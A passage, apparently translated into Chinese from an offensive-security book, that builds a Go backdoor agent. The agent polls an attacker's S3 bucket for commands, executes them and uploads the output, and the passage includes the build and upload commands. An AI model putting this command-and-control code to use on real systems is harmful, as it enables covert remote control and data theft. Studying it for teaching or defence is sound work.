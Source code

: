 清单 6-3：设置代理变量

我们与 S3 的交互将通过 HTTP REST 查询（GET 用于获取内容，PUT 用于上传数据）进行，以避免与机器角色产生任何奇怪的权限重叠。有关适当的 S3 策略，请参见本书的资源：[`nostarch.com/how-hack-ghost/`](https://nostarch.com/how-hack-ghost/)。

在清单 6-4 中，我们通过每两秒执行一次`fetchData`方法，设置代理从`reqURL`下载要执行的数据。

```
 for {
   time.Sleep(2 * time.Second)
   cmd, etag, err = fetchData(client, reqURL, etag)
`--snip--`
   go func() {
       output := execCmd(cmd)
       if len(output) > 0 {
          uploadData(client, respURL, output)
       }
   }()
 }
```

清单 6-4：下载数据

如果自上次访问以来文件已被修改（HTTP 状态码 200 表示已修改），那么新的命令将通过`execCmd`方法可供执行。否则，我们会收到 HTTP 304（未修改）响应，并在几秒钟后悄悄重试。

结果随后将通过`uploadData`方法返回到桶中。下一个部分（见清单 6-5）创建了`uploadData`方法。

```
func uploadData(client *http.Client, url string, data []byte) error {

 req, err := http.NewRequest("PUT", url, bytes.NewReader(data))
 req.Header.Add("x-amz-acl", "bucket-owner-full-control")
 _, err = client.Do(req)
 return err
}
```

清单 6-5：代理的`uploadData`方法

`uploadData`方法是一个经典的 HTTP PUT 请求，但这里有一个小的额外细节：`x-amz-acl`头部。这个头部指示 AWS 将上传文件的所有权转移到目标桶的所有者，即我们。如果没有这个头部，文件将保持原来的所有权，我们将无法使用 S3 API 来检索它。如果你对`execCmd`、`fetchData`和`uploadData`函数的实现感兴趣，别犹豫，去看看书本 GitHub 仓库里的代码。

编写此类代理程序的第一个关键要求是稳定性。我们将其投放到敌方阵地，因此需要妥善处理所有错误和边缘情况。错误的异常可能导致代理崩溃，从而失去我们的远程访问权限。谁知道模板注入漏洞第二天还会不会存在呢？

Golang 通过从一开始就不引入异常来处理异常。大多数调用返回一个错误代码，在继续之前应该检查该错误代码。只要我们严格遵循这一做法，并且遵守其他一些良好的编码习惯，比如在解引用之前检查空指针，我们应该相对安全。其次是并发性。我们不希望因为程序在执行一个`find`命令而导致代理的资源消耗 20 分钟，进而使程序崩溃。这就是为什么我们将`execCmd`和`uploadData`方法封装在一个 goroutine 中（前缀`go func()...`）。

将 goroutine 看作是与其余代码并行执行的一组指令。所有的 goroutine 共享与主程序相同的线程，从而节省了一些数据结构和通常由内核在从一个线程切换到另一个线程时所做的昂贵的上下文切换。为了给你一个实际的对比，goroutine 分配大约 4KB 的内存，而操作系统线程大约需要 1MB。你可以在一台普通计算机上轻松运行数十万个 goroutine 而不会出现问题。

我们将源代码编译成一个名为*runcdd*的可执行文件，并将其上传到我们的 S3 桶中，它将静静地待在那里，随时待命：

```
root@Point1:~/# **git clone** **https://github.com/HackLikeAPornstar/GreschPolitico**
root@Point1:~/# **cd S3Backdoor/S3Agent**
root@Point1:~/# **go build -ldflags="-s -w" -o ./runcdd main.go**
root@Point1:~/# **aws s3api put-object \**
**--bucket mxrads-archives-packets-linux \**
**--key runcdd \**
**--body runcdd**
```
